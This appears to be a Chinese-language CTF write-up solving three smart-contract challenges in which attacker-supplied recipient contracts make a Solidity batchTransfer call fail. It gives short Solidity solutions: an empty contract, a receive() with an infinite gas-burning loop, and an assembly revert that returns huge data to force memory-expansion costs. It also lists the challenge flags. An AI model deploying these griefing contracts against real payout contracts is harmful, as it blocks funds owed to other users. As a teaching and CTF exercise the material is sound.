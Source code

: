 ## 解题思路

- 每题会根据玩家提供的字节码部署十个合约并作为 `BatchTransfer::batchTransfer()` 的接收者，随后执行转账交易
- 若调用 `batchTransfer()` 函数的交易执行失败即可获得 Flag

### Challenge 1

- 本题使用 `transfer` 进行转账，转账失败会报错导致交易回滚
- 一个没有 `receive()` 或 `fallback()` 函数的合约即可 :3

```js
contract Empty {}
```

#### Flag

> flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt}

### Challenge 2

- 本题将 `transfer()` 改为 `call()`，如果转账失败则将金额记录到 `pendingWithdrawals` 映射中
- 根据 Challenge 3 的修改容易想到可以通过死循环耗尽交易的 gas

```js
contract Loop {
    receive() external payable {
        while (true) {}
    }
}
```

#### Flag

> flag{Ple4se_L1m1t_y0uR_GAS_HaHa}

### Challenge 3

- 本题限制了每次 `call()` 的 gas 消耗为 1 万，而 `batchTransfer()` 交易的 gas limit 为 100 万
- 需要让内部交易尽可能地影响主交易，一个方式是返回大量字节
- Solidity 的低级调用会将返回的所有数据拷贝到内存中，而内存扩容（以字为单位）会增加 gas 消耗

    <pre>
    <code>mem_size_words = (mem_size + 31) // 32
    gas_cost = (mem_size_words ^ 2 // 512) + (3 * mem_size_words) - C<sub>men</sub>(old_state)</code></pre>

- 使用 `revert` 返回数据能够通过读写状态变量消耗更多的 gas，不过本题 `return` 就足够了

```js
contract HugeReturn {
    receive() external payable {
        assembly {
            revert(0, 55000)
        }
    }
}
```

#### Flag

> flag{Y0u_4re_Th3_M4sTeR_0f_EVM!!!}

## 参考资料

- [Appendix - Dynamic Gas Costs](https://github.com/wolflo/evm-opcodes/blob/main/gas.md)
- [nomad-xyz / ExcessivelySafeCall](https://github.com/nomad-xyz/ExcessivelySafeCall)
